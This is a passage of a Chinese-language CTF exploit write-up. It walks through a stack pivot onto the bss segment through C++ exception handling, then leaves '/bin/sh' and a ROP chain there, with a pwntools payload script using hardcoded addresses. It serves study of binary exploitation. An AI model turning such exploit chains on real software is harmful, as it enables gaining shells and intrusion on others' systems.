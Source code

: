 *   首先通过 name 在 bss 段伪造栈底，ret 设置为 test 函数，rbp 仍设置为 bss 地址，就可以在 bss 的伪造栈上再次 read 导致溢出
*   第一次进入 test 溢出，rbp 覆盖为 name 地址，再次跳转 test
*   第二次进入 test 溢出，在 bss 上留下字符串`/bin/sh`以及`rop`片段信息
*   在 bss 上再次触发异常处理，利用 rbp 覆盖跳转到上一步留下的 ROP 片段

下面将详细说明每一步的内容

#### 覆盖 rbp 进行栈转移

首先用 name 来伪造一个栈底部，然后覆盖 rbp 为 bss 段的`name`变量地址，payload 构造如下

```plain
name_addr = 0x4D93D0 #变量 name 的地址，保证二次溢出时的栈帧仍在 bss 上
test_addr = 0x401a75 #test 函数的地址，再次调用 read 溢出

io.recvuntil("name?")
payload = p64(name_addr) + p64(test_addr)
io.send(payload)

io.recvuntil("called") 
payload = b'a'*0x30
payload += p64(name_addr)
io.send(payload)
```

可以注意到在`catch handler`结束时，由于我们在 bss 上留下`[name_addr+8]==test_addr`，ret 将再次进入`test()`

[![](assets/1701606727-78c28b444d1b4b2609a7c9ab13976329.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107164829-6cad5b32-7d4a-1.png)

并且由于此时栈帧已经被转移到了 bss 上，图中的栈帧和 rsi 可见，`read()`将在 bss 上做栈溢出
